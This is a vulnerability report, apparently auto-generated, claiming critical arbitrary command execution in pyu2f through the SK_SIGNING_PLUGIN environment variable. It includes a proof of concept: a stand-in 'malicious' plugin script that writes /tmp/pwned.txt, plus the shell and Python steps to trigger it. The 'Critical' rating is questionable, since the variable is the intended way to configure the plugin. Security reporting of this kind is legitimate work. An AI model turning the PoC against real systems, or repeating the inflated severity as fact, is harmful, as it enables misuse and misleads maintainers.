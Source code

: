 ### Vulnerability List:

* Vulnerability Name: Arbitrary Command Execution via SK_SIGNING_PLUGIN Environment Variable
* Description:
    1. The `pyu2f` library allows users to configure an external signing plugin by setting the `SK_SIGNING_PLUGIN` environment variable.
    2. When the `Authenticate` method of `CustomAuthenticator` is called, it retrieves the value of the `SK_SIGNING_PLUGIN` environment variable.
    3. This value, which is expected to be a path to a signing plugin executable, is directly passed to `subprocess.Popen` without any sanitization or validation.
    4. An attacker can trick a user or system into setting the `SK_SIGNING_PLUGIN` environment variable to point to a malicious script or executable.
    5. When `pyu2f`'s `Authenticate` function is triggered, it will execute the attacker-controlled script using `subprocess.Popen`.
    6. This allows the attacker to execute arbitrary commands on the system where `pyu2f` is running, with the privileges of the user running the `pyu2f` application.
* Impact:
    - Arbitrary code execution on the host system.
    - Complete compromise of the security intended by U2F, as the attacker can control the signing process.
    - Potential data exfiltration, system manipulation, or further attacks depending on the malicious script.
* Vulnerability Rank: Critical
* Currently Implemented Mitigations:
    - None. The code directly uses the environment variable without any checks.
* Missing Mitigations:
    - Input validation and sanitization for the `SK_SIGNING_PLUGIN` environment variable.
    - Restriction of allowed plugin paths to a predefined safe directory or list.
    - Warning to users about the security implications of using external signing plugins and setting the `SK_SIGNING_PLUGIN` environment variable.
    - Documentation clearly stating the risks associated with using external signing plugins and recommending against it unless strictly necessary and with extreme caution.
* Preconditions:
    - The `pyu2f` library must be used with the convenience layer that utilizes `CustomAuthenticator`.
    - The attacker must have a way to influence the environment variables where the `pyu2f` application is executed, specifically to set the `SK_SIGNING_PLUGIN` variable. This could be achieved through local access, social engineering, or vulnerabilities in systems that configure the environment for the `pyu2f` application.
* Source Code Analysis:
    1. File: `/code/pyu2f/convenience/customauthenticator.py`
    2. Function: `CustomAuthenticator.Authenticate`

    ```python
    def Authenticate(self, app_id, challenge_data,
                     print_callback=sys.stderr.write):
        """See base class."""

        # Ensure environment variable is present
        plugin_cmd = os.environ.get(SK_SIGNING_PLUGIN_ENV_VAR) # [POINT OF VULNERABILITY] - Retrieves environment variable without validation
        if plugin_cmd is None:
          raise errors.PluginError('{} env var is not set'
                                   .format(SK_SIGNING_PLUGIN_ENV_VAR))

        # Prepare input to signer
        client_data_map, signing_input = self._BuildPluginRequest(
            app_id, challenge_data, self.origin)

        # Call plugin
        print_callback('Please insert and touch your security key\n')
        response = self._CallPlugin([plugin_cmd], signing_input) # [POINT OF VULNERABILITY] - Executes command from environment variable

        # Handle response
        key_challenge_pair = (response['keyHandle'], response['challengeHash'])
        client_data_json = client_data_map[key_challenge_pair]
        client_data = client_data_json.encode()
        return self._BuildAuthenticatorResponse(app_id, client_data, response)

    def _CallPlugin(self, cmd, input_json):
        """Calls the plugin and validates the response."""
        # Calculate length of input
        input_length = len(input_json)
        length_bytes_le = struct.pack('<I', input_length)
        request = length_bytes_le + input_json.encode()

        # Call plugin
        sign_process = subprocess.Popen(cmd, # [POINT OF VULNERABILITY] - `cmd` is directly from environment variable
                                        stdin=subprocess.PIPE,
                                        stdout=subprocess.PIPE)

        stdout = sign_process.communicate(request)[0]
        exit_status = sign_process.wait()
        # ... rest of the function handles the response
    ```

    **Visualization:**

    ```
    Environment Variable (SK_SIGNING_PLUGIN) --> CustomAuthenticator.Authenticate --> _CallPlugin --> subprocess.Popen --> Command Execution
    ```

    The code directly retrieves the value of the `SK_SIGNING_PLUGIN` environment variable using `os.environ.get()` and passes it as the command `cmd` to `subprocess.Popen()`.  No checks are performed to validate that `plugin_cmd` is a safe executable path, allowing for arbitrary command injection if the environment variable is attacker-controlled.

* Security Test Case:
    1. **Prepare a malicious script:** Create a simple Python script named `malicious_script.py` that will be used as the malicious plugin. This script will simply create a file named `pwned.txt` in the `/tmp` directory to indicate successful command execution.

    ```python
    #!/usr/bin/env python3
    import sys
    import os

    if __name__ == "__main__":
        with open("/tmp/pwned.txt", "w") as f:
            f.write("You have been PWNED by pyu2f plugin vulnerability!")
        print('{"type": "sign_helper_reply", "code": 0, "errorDetail": "", "responseData": {"appIdHash": "test", "challengeHash": "test", "keyHandle": "test", "version": "U2F_V2", "signatureData": "test"}}')
    ```

    2. **Make the script executable:**
    ```bash
    chmod +x malicious_script.py
    ```

    3. **Set the SK_SIGNING_PLUGIN environment variable:**  Before running any `pyu2f` code that triggers authentication, set the `SK_SIGNING_PLUGIN` environment variable to the absolute path of the `malicious_script.py`.

    ```bash
    export SK_SIGNING_PLUGIN="/path/to/malicious_script.py" # Replace with the actual path
    ```

    4. **Run pyu2f authentication:** Execute a Python script that uses `pyu2f` to perform authentication using the convenience layer. This will trigger the `CustomAuthenticator` and consequently execute the script pointed to by `SK_SIGNING_PLUGIN`. A minimal example to trigger the vulnerability would involve instantiating `CompositeAuthenticator` and calling `Authenticate`. You might need to mock some parts of the U2F flow to avoid actual hardware interaction if you are just testing the plugin execution.

    ```python
    import os
    from pyu2f.convenience import authenticator
    from pyu2f import errors
    import base64
    from pyu2f import model

    origin = "http://example.com"
    app_id = "http://example.com"
    challenge_data = [{'key': model.RegisteredKey(base64.urlsafe_b64decode('test_key_handle==')), 'challenge': b'test_challenge'}]

    try:
        api = authenticator.CreateCompositeAuthenticator(origin)
        response = api.Authenticate(app_id, challenge_data)
        print("Authentication successful (this should not happen in a real exploit test if the malicious script doesn't properly mimic a plugin):", response)
    except errors.PluginError as e:
        print(f"Plugin Error: {e}")
    except Exception as e:
        print(f"An unexpected error occurred: {e}")

    ```

    5. **Check for successful exploitation:** After running the Python script, check if the `/tmp/pwned.txt` file has been created. If it exists, it confirms that the malicious script was executed, and the arbitrary command execution vulnerability is valid.

    ```bash
    ls /tmp/pwned.txt
    cat /tmp/pwned.txt
    ```

    If `pwned.txt` exists and contains the expected message, the vulnerability is confirmed.